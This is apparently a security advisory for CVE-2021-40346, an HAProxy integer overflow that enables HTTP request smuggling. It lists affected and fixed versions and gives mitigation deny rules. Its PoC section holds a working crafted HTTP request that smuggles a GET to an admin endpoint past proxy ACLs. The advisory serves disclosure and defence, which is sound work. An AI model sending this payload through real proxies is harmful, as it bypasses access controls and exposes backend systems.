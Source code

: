 ```yaml
---
description: CVE-2021-40346 High severity. An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests
title: Integer overflow in HAProxy leads to HTTP Smuggling
date_published: "2021-07-09"
last_updated: "2021-07-09"
xray_id: XRAY-184496
vul_id: CVE-2021-40346
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary

An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests

## Component

[HAProxy](http://www.haproxy.org/)

## Affected versions

HAProxy [2.0 - 2.0.24], fixed in 2.0.25
HAProxy [2.1 - 2.1*], no fix. unmaintained version
HAProxy [2.2 - 2.2.16], fixed in 2.2.17
HAProxy [2.3 - 2.3.13], fixed in 2.3.14
HAProxy [2.4 - 2.4.3], fixed in 2.4.4
HAProxy Enterprise [2.0r1 - 2.0r1-1.0.0-234.1215], fixed in 2.0r1-1.0.0-235.1230
HAProxy Enterprise [2.1r1 - 2.1r1-1.0.0-238.612], fixed in 2.1r1-1.0.0-238.625
HAProxy Enterprise [2.2r1 - 2.2r1-1.0.0-241.491], fixed in 2.2r1-1.0.0-241.505
HAProxy Enterprise [2.3r1 - 2.3r1-1.0.0-242.330], fixed in 2.3r1-1.0.0-242.345
HAProxy Enterprise [2.4r1 - 2.4r1], fixed in 2.4r1-1.0.0-253.271
HAproxy Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAproxy Enterprise Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAProxy ALOHA [11.5 - 11.5.12], fixed in 11.5.13
HAProxy ALOHA [12.5 - 12.5.4], fixed in 12.5.5
HAProxy ALOHA [13.0 - 13.0.6], fixed in 13.0.7

## Description

Due to an integer overflow, a parsing error is created in HAProxy that allows an attacker to specify two `Content-Length` headers with different sizes. Subsequently, this allows an attacker to perform HTTP smuggling. This attack allows an adversary to smuggle HTTP requests to the backend server, without the proxy server being aware of it. The smuggled requests have various impacts, depending on HAProxy’s configuration and the backend web server configuration: Bypassing security controls, including any ACLs defined in HAProxy, Gaining unauthorized access to sensitive data, Executing unauthorized commands or modifying data, Hijacking user sessions, Exploiting a reflected XSS vulnerability without user interaction.

## PoC

Any attacker that can send requests through the proxy, can exploit this vulnerability, by sending requests such as:

```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60

GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz


```

The GET request will be smuggled and will evade any ACLs defined in the HAProxy configuration file.

## Vulnerability Mitigations

If you are not able to update right away, you can apply the following rules to your HAProxy configuration file to mitigate the vulnerabilities. These should be added to your frontend.

```
frontend myfrontend
http-request deny if { req.hdr_cnt(content-length) gt 1 }
http-response deny if { res.hdr_cnt(content-length) gt 1 }
```


## References

[(JFrog) Critical vulnerability in HAProxy ](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)
[NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-40346)